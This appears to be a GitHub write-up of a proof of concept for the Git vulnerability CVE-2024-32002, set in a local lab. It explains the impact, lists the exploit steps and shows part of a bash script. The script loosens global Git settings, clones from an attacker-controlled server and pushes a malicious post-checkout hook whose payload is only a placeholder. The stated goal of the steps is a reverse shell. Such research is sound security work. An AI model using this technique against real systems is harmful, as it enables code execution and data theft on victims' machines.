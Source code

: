 The impact of CVE-2024-32002 is severe. By exploiting this vulnerability, an attacker can execute arbitrary code on the targeted system with the privileges of the user running the affected Git application. This can lead to:

- **Data Theft**: The attacker can access and exfiltrate sensitive data from the victim's system.
- **System Compromise**: The attacker can gain control over the victim's system, potentially installing malware or creating backdoors.
- **Further Propagation**: The attacker can use the compromised system to launch further attacks on other systems or networks.


### Proof of Concept (PoC) for CVE-2024-32002 Exploit

This PoC demonstrates how an attacker can exploit the CVE-2024-32002 vulnerability in Git to execute a malicious hook script. The script sets up a malicious repository with a submodule and a symbolic link, then clones the repository to trigger the execution of the malicious hook.

#### Scenario:

For exploiting the CVE-2024-32002 vulnerability I'm using my own Gitea server running locally in a Docker container and a Virtual machine of Windows 10 as a victim machine.

PoC script - [Link](https://github.com/NishanthAnand21/CVE-2024-32002-PoC.git)

#### Step-by-Step Explanation

1. **Configure Git**: Set global Git configurations to allow file protocols and enable symbolic links.
2. **Clean Up**: Remove any existing `repo1` and `repo2` directories to start fresh.
3. **Clone Malicious Repository**: Clone a repository (`repo1`) from the attacker's server.
4. **Create Malicious Hook**: Create a `post-checkout` hook in `repo1` that executes a payload.
5. **Push Malicious Hook**: Add, commit, and push the malicious hook to the remote repository.
6. **Set Up Submodule**: Clone another repository (`repo2`), add `repo1` as a submodule, and create a symbolic link to the `.git` directory.
7. **Trigger Exploit**: Clone the malicious repository to execute the hook and start a reverse shell.

#### PoC Script

```sh
#!/bin/bash

# Configure Git to allow file protocol and enable symbolic links
git config --global protocol.file.allow always
git config --global core.symlinks true
git config --global init.defaultBranch main

# Clean up any existing repositories
rm -rf repo1
rm -rf repo2

# Clone the malicious repository
git clone http://<ip>:3000/<name of the owner>/repo1.git
cd repo1

# Create a malicious post-checkout hook
mkdir -p y/hooks
cat > y/hooks/post-checkout <<EOF
#!/bin/sh
<Payload>
EOF
chmod +x y/hooks/post-checkout

# Add, commit, and push the malicious hook
git add y/hooks/post-checkout
git commit -m "Add malicious post-checkout hook"
git push
```